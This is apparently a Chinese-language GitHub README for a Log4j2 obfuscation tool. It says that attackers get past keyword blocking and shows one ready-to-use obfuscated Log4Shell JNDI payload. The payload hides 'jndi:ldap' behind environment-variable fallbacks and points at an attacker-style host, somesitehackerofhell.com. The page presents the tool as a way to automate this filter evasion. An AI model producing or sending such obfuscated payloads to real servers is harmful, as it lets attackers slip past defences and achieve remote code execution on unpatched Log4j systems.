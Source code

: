 # Log4j2混淆工具

许多开发人员开始屏蔽关键字以保护应用程序。

但是，攻击者可以使用混淆方式来进行绕过。

最常用的为系统环境变量绕过：

${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}

手动替换字符无疑是一项大工程，耗时耗力又容易出错。



![image](https://github.com/Securify-Pro/Log4j2_obfuscation/blob/master/Securify-Pro.png)


